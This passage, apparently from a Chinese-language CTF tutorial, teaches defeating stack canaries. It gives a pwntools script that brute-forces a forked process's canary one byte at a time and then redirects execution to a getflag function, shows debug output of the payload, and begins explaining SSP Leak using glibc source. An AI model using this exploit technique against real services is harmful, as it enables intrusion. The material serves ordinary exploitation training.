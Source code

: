 继续运行，再次输入发现里面的Canary的值没有发生改变，这正是**通过 fork 函数创建的子进程的 Canary 与父进程是相同**

编写exp：

```plain
# -*- coding:utf-8 -*-
from pwn import *
context(os='linux',arch='i386',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

p = process('./bin1')
e = ELF('./bin1')

p.recvuntil('welcome\n')
canary = '\x00'

for i in range(3):
    for i in range(256):
        p.send('a'*100+canary+chr(i))
        message = p.recvuntil('welcome\n')
        if 'recv' in message:
            canary+=chr(i)
            break

getflag_addr = e.sym['getflag']
payload = 100*'a'+canary+8*'a'+4*'a'+p32(getflag_addr)
p.sendline(payload)
p.interactive()
```

如果canary不正确，就会输出检测到堆溢出的信息，如果canary正确，会输出成功信息，并继续下一字节的爆破，由于32位的canary有4字节，故需要爆破3次

```plain
[DEBUG] Sent 0x68 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000060  61 61 61 61  00 61 41 d1 //爆破的最后一步                            │aaaa│·aA·│
    00000068
```

## SSP Leak

### 原理

Stack Smashing Protect Leak，这种方法能够获取内存中的值，但是无法拿到shell

原理参考链接：[https://www.anquanke.com/post/id/177832#h2-3](https://www.anquanke.com/post/id/177832#h2-3)

当canary被改变时，函数终止前会调用\_\_stack\_chk\_fail函数，定义如下：

```plain
eglibc-2.19/debug/stack_chk_fail.c

void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}

void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminatedn",
                    msg, __libc_argv[0] ?: "<unknown>");
```
